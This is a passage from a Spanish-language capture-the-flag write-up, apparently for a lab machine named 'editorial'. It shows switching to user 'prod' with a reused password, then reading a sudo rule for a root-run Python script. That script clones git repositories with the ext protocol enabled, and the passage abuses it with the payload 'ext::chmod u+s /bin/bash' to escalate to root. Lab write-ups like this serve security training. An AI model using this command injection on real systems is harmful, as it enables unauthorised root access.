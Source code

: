 ```diff
-# -------------------------------
-# Start program
-# -------------------------------
-if __name__ == '__main__':
-    app.run(host='127.0.0.1', port=5001, debug=True)
```

Hay un usuario más llamado `prod` que podemos ver listando la carpeta `/home`, y esta contraseña que encontramos es reutilizada por este usuario.

```bash
dev@editorial:~/apps$ su prod
Password: 
prod@editorial:/home/dev/apps$ 
```

### root - editorial

Tenemos asignado el siguiente permiso en sudo:

```bash
prod@editorial:/home/dev/apps$ sudo -l
[sudo] password for prod: 
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

El script de Python contiene lo siguiente


```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```
{: file="/opt/internal_apps/clone_changes/clone_prod_change.py"}

Ya que nos permite utilizar el protocolo `ext` de git, básicamente podemos decirle a esto que nos ejecute un comando clonando el siguiente "repositorio": 

```bash
"ext::chmod u+s /bin/bash"
```
